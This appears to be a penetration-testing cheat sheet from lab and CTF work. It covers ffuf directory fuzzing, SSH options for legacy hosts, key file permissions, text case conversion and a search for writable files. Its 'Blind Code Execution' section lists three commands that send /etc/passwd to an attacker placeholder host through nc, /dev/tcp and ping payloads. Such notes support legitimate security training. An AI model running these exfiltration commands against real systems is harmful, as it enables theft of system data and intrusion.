 If you’re unable to find directories in `ffuf` but you can access them in the browser, make sure the `Accept:` header is set correctly.

```abap
ffuf -H 'Cookie: token=guest' -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" -u http://imcool.htb/FUZZ
```

# Blind Code Execution

Can get output by executing:

```abap
$(nc {ATTACKER_IP} 8000 < /etc/passwd) # method 1
cat /etc/passwd > /dev/tcp/{ATTACKER_IP}/8000 #method 2
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done #method 3

```

The above code will send the contents of `/etc/passwd` to you `nc`listener.

# SSH

## Options for Old Host

```abap
ssh -oStrictHostKeyChecking=no -oHostKeyAlgorithms=+ssh-dss -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -oUserKnownHostsFile=/dev/null -i ./id_rsa bob@10.11.1.136 -v
```

## Permissions for SSH files

```abap
chmod 700 .ssh
chmod 644 .ssh/authorized_keys
chmod 600 id_rsa
```

# Text Manipulation

Changing the case (lowercase and uppercase)

```abap
echo 31108E5848D8397C4D65E6D95CC8AAE9 | tr [:upper:] [:lower:] # to lowercase
echo 31108e5848d8397c4d65e6d95cc8aae9 | tr [:lower:] [:upper:] # to uppercase

```

### Find Writeable Files

Can find writeable files in Linux

```abap
find / -writable -ls 2>/dev/null
```
